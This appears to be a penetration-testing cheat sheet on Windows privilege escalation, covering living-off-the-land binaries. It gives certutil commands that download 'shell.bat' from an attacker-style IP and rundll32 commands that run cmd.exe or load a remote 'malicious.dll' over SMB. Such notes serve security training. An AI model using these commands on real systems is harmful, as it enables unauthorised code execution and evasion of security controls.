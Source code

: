 # Miscellaneous Techniques

## 🎯 Overview

**Miscellaneous techniques** encompass **LOLBAS exploitation**, **policy misconfigurations**, **CVE-specific vulnerabilities**, **scheduled task abuse**, and **virtual disk mounting** for hash extraction. These methods provide alternative privilege escalation vectors when standard techniques fail.

## 🏠 Living Off The Land Binaries (LOLBAS)

### LOLBAS Concept
```cmd
# LOLBAS characteristics:
- Microsoft-signed binaries/scripts/libraries
- Native to OS or downloadable from Microsoft
- Unexpected functionality useful for attackers
- Bypass security controls via trusted processes
```

### Common LOLBAS Functions
```cmd
# Attack capabilities:
- Code execution & compilation
- File transfers & encoding
- Persistence mechanisms
- UAC bypass techniques
- Credential theft & dumping
- Process memory dumping
- DLL hijacking & evasion
```

### Certutil File Transfer
```cmd
# Download files with certutil:
certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat

# Base64 encoding:
certutil -encode file1 encodedfile

# Base64 decoding:
certutil -decode encodedfile file2

# Result: File transfer without traditional download tools
```

### Rundll32 DLL Execution
```cmd
# Execute DLL files:
rundll32.exe user32.dll,LockWorkStation
rundll32.exe shell32.dll,ShellExec_RunDLL cmd.exe

# Remote DLL execution:
rundll32.exe \\<ip>\share\malicious.dll,EntryPoint
```
